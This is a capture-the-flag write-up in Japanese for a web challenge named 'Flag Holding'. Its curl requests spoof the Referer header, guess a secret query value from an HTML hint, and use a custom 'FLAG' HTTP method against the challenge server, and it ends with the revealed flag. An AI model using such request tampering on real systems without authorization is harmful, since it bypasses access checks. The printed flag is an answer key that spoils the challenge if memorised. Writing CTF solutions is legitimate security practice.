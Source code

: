 # Flag Holding:Web:28pts
Hopefully you know how web works...  
```
http://18.184.219.56:8080/
```

# Solution
URLが渡される。  
アクセスすると、`http://flagland.internal/`から来いと怒られる。  
![site.png](site/site.png)  
`Referer`だろうとあたりをつけ、curlする。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Unspecified "secret".   </div>
</body>
</html>
```
`secret`が必要らしい。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=satoki
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->   </div>
</body>
</html>
```
プロトコル名なので`http`としてやればよい。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=http
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Sorry we don't have "GET" here but we might have other things like "FLAG".      </div>
</body>
</html>
```
注文が多いが、`GET`ではなく`FLAG`にすればよいようだ。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=http -X 'FLAG'
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f} </div>
</body>
</html>
```
flagが得られた。  

## MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}